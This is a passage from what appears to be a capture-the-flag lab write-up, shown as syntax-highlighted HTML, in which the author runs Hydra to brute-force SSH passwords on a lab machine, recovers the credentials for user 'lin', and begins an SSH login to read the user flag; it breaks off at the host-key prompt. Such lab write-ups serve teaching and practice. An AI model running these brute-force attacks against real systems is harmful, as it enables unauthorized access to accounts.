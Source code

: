 [ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"RedDr4gonSynd1cat3"</span> - <span class="hljs-number">10</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">9</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"R3dDRaG0Nsynd1c@T3"</span> - <span class="hljs-number">11</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">10</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"Synd1c4teDr@g0n"</span> - <span class="hljs-number">12</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">11</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"reddRAg0N"</span> - <span class="hljs-number">13</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">12</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"REddRaG0N5yNdIc47e"</span> - <span class="hljs-number">14</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">13</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"Dra6oN$yndIC@t3"</span> - <span class="hljs-number">15</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">14</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"4L1mi6H71StHeB357"</span> - <span class="hljs-number">16</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">15</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[<span class="hljs-number">22</span>][ssh] host: <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span>   login: lin   <span class="hljs-keyword">password</span>: RedDr4gonSynd1cat3
<span class="hljs-number">1</span> <span class="hljs-keyword">of</span> <span class="hljs-number">1</span> target successfully completed, <span class="hljs-number">1</span> valid <span class="hljs-keyword">password</span> <span class="hljs-keyword">found</span>
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished <span class="hljs-keyword">at</span> <span class="hljs-number">2024</span><span class="hljs-number">-01</span><span class="hljs-number">-25</span> <span class="hljs-number">13</span>:<span class="hljs-number">22</span>:<span class="hljs-number">23</span>
</code></pre><pre><code>The valid ssh credentials <span class="hljs-string">are:</span>
<span class="hljs-string">username:</span> lin
<span class="hljs-string">password:</span> RedDr4gonSynd1cat3
</code></pre><p>After establishing an SSH connection to the web server, I then checked the contents of the Desktop directory and read the user flag.</p>
<pre><code>ssh lin@<span class="hljs-number">10.10</span>.<span class="hljs-number">74.157</span>         
The authenticity <span class="hljs-keyword">of</span> host '<span class="hljs-number">10.10</span>.<span class="hljs-number">74.157</span> (<span class="hljs-number">10.10</span>.<span class="hljs-number">74.157</span>)' can<span class="hljs-symbol">'t</span> be established.
ED25519 key fingerprint <span class="hljs-keyword">is</span> SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key <span class="hljs-keyword">is</span> <span class="hljs-keyword">not</span> known by any other names.
Are you sure you want <span class="hljs-keyword">to</span> continue connecting (yes/no/[fingerprint])? yes
<span class="hljs-literal">Warning</span>: Permanently added '<span class="hljs-number">10.10</span>.<span class="hljs-number">74.157</span>' (ED25519) <span class="hljs-keyword">to</span> the list <span class="hljs-keyword">of</span> known hosts.